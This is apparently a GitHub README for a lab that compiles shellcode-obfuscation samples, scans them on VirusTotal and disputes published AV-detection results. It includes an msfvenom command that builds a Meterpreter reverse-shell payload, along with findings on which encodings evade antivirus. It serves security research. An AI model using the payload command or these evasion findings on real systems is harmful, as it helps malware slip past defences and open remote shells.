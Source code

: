 # SOL ShellcodeObfuscationLab

Shellcode obfuscations laboratory based on RedSiege [Chromatophore](https://github.com/RedSiege/Chromatophore/). 


## Background

I see RedTeam research like [Adventures in Shellcode Obfuscation!](https://redsiege.com/blog/2024/09/adventures-in-shellcode-obfuscation-part-14-further-research/), a 
[14 part series](https://redsiege.com/adventures-in-shellcode-obfuscation/)
of hiding shellcode using various different encryption- or encoding ciphers. 

In the security scene, the myth perpetuates: How you encode a shellcode has an
influence on the detection rate. The assumption is, that somehow an AV or security software
has a unique ability to automagically reverse engineer encryption ciphers, and also
have a quantum computer integrated to crack the key. 

The truth is: AV doesnt know shit. 

RedSiege came to the following wrong result:

| Technique          | VT Score |
| ------------------ | -------- |
| XOR Multibyte Key  | 2        |
| Offsets            | 2        |
| Jargon             | 3        |
| Reverse Byte Order | 4        |
| Jigsaw             | 4        |
| Reversed Byte XOR  | 5        |
| IPv4               | 6        |
| MAC Address        | 6        |
| Caesar             | 7        |
| RC4                | 7        |
| XOR                | 8        |
| AES                | 8        |
| Two Array          | 8        |
| Reverse String     | 13       |
| UUID               | 13       |
| Base64             | 18       |
| No Obfuscation     | 27       |


But didnt bother to question the data. There are many issues with it: 

* No negative test (without malicious shellcode)
* Some programs are written in C, some in C#
* Some use WinAPI (AES, RC4, UUID) which are either an IOC, or may block AV emulator
* ReverseXor brute forces the key
* In jargon.c they mention that Defender detects the decryption routine itself. Same in xor_multibyte
* As they store the shellcode in a variable, static analysis tools can try out their deobfuscation on all the variables (explains high detection of ReverseString and Base64)
* Scans performed with large intervals between them (weeks?)

Which means that the test has been performed wrong, and the results are invalid. 
Any conclusion based on the data is also invalid - and building [trainings](https://redsiege.com/training-av-edr-evasion/) on it distributes the misinformation. 

Luckily RedSiege published the [shellcode encoder sources](https://github.com/RedSiege/Chromatophore).
I made this framework based on it to test it for myself. 


## Predictions

* Which encryption you use doesnt matter - they all equally resistant to analysis
* Using windows API's will increase detection rate


## Results

Tests have been performed with einer "random" - a alphanumeric 20 byte string as "shellcode". And "metasploit" 
with output of `msfvenom -p windows/x64/meterpreter/reverse_http LHOST=192.168.190.134 LPORT=80 -f raw -o beacon.bin`. 
The "tasploit" does not execute the shellcode, only decodes and prints it. 

Conclusion: 
* The type of encoding/encryption doesnt matter
* More important is if a windows API is being used/imported (static analysis, e.g. IAT in PE)
* Note that NO obfuscation metasploit outperforms AES encryption, base64 windows api, ip-, mac- and uuid-encoding
* VirusTotal has maybe one memory scanner. The rest seem to be static analysis. 

| **What**           | **Library**           | **Includes**              | **Function / IAT**                 | **Random** | **Metasploit** |
| ------------------ | --------------------- | ------------------------- | ---------------------------------- | ---------- | -------------- |
| aes                | crypt32.lib, advapi32 | wincrypt.h                | Crypt\*                            | **5**          | **6**              |
| base64             | \-                    | \-                        | \-                                 | 3          | 3              |
| base64api          | crypt32.lib           | wincrypt.h                | CryptStringToBinaryA               | **5**          | **6**              |
| bin2ip             | Ntdll.lib             | ntstatus.h<br>Ip2string.h | RtlIpv4StringToAddressA            | **8**          | **10**             |
| bin2mac            | Ntdll.lib             | ntstatus.h<br>Ip2string.h | RtlEthernetStringToAddressA        | **8**          | **18**             |
| cesar              | \-                    | \-                        | \-                                 | 2          | 2              |
| jargon             | \-                    | \-                        | \-                                 | 3          | 2              |
| jigsaw             | \-                    | \-                        | \-                                 | 2          | 3              |
| offset             | \-                    | \-                        | \-                                 | 2          | 3              |
| rc4api             | \-                    | \-                        | GetProcAddress (SystemFunction033) | 2          | 2              |
| reverse_byte_order | \-                    | \-                        | \-                                 | 2          | 2              |
| reverse_hex_string | \-                    | \-                        | \-                                 | 2          | 2              |
| twoarray           | \-                    | \-                        | \-                                 | 2          | 3              |
| uuidapi            | rpcrt4.lib            | rpc.h                     | UuidFromStringA                    | **8**          | **11**             |
| xor_multibyte      | \-                    | \-                        | \-                                 | 1          | 2              |
| xor_reverse        | \-                    | \-                        | \-                                 | 2          | 3              |
| xor_single         | \-                    | \-                        | \-                                 | 1          | 3              |
| **NO OBFUSCATION**     | \-                    | \-                        | \-                                 | 2          | 3              |


The results of the test are at [lab_results/](https://github.com/dobin/ShellcodeObfuscationLab/tree/main/lab_results). 
For example the generated [aes.c source code](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/aes_work.c),
and [VirusTotal result](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/aes.exe.json).


## SOL Usage

Use the `x64 native tools command prompt` from Visual Studio so you have access to `ml.exe` and `Windows.h`. 

To compile all the source from `chromatophore/` into `output/*.exe`:
```
> python.exe sol.py compile
```

To send all the exes to VirusTotal:

```
> set VT_API_KEY=123...
> python.exe sol.py 
```

Output is in `output/*.exe.json` and `output/scan_results.txt`. 

